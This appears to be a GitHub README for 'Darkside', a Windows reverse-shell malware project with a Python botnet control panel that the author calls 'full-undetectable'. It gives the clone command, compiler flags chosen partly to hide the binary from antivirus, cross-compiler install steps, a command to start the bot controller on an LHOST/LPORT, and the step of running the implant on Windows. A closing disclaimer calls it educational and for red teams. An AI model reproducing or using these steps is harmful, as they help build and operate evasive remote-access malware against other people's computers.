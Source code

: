 # Darkside

For now it's small piece of software at mine beginning of writing FUD (full-undetectable) malware - limited reverse shell for Windows written in C/C++ and Python control panel.

## Getting Started

Download source from github


```
git clone https://github.com/Djkusik/Darkside.git
```

To compile it, I used few flags for smaller size of final binary, faster processing time, stripping metadata or hiding binary from antiviruses:

```
i686-w64-mingw32-g++ -std=c++11 darkside.cpp -o darkside.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### Prerequisites

We will need cross compiler (if we're using Linux) - for these who use one based on Debian:

```
apt-get install mingw-w64-common mingw-w64-i686-dev mingw-w64-tools mingw-w64-x86-64-dev i686-w64-mingw32-g++
```

Helpful would be virtual machine with Windows for testing.

## Usage

First we need to open our server which will be used for controlling bots:

```
python3 botnet_server.py <LHOST> <LPORT>
```

Then run executable at Windows (for now it isn't run on startup). We can do it from cmd when being in the same folder:

```
.\darkside.exe
```

### Disclaimer

This software has been made for educational purposes and could be used for CyberSecurity Red Teams. I don't promote malicious practices and will not be responsible for any illegal activities. Use it at your own risk.
